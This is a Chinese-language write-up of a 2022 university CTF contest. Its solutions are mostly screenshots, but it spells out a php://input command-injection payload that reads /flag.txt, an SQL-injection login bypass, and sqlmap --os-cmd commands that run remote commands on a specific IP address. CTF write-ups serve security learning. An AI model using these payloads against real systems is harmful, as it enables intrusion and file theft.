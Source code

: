 ```yaml
---
title: 2022年网安小学期-CTF
slug: /CTF/2022xuqctf
---
```

# 22年网安小学期-CTF

## 木册木兰

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

## inputer

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)

- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造 `php://input`，利用 `system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令 `<?php system("cat /flag.txt");?>`获得flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

## WEB_blind_exec

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

## LFI

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

## baby_sql

```
admin' or '1'='1
```

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

## WEB_randnum

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

## WEB_babyphp

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

## easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

## sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

## happy

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

## rsarsa

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
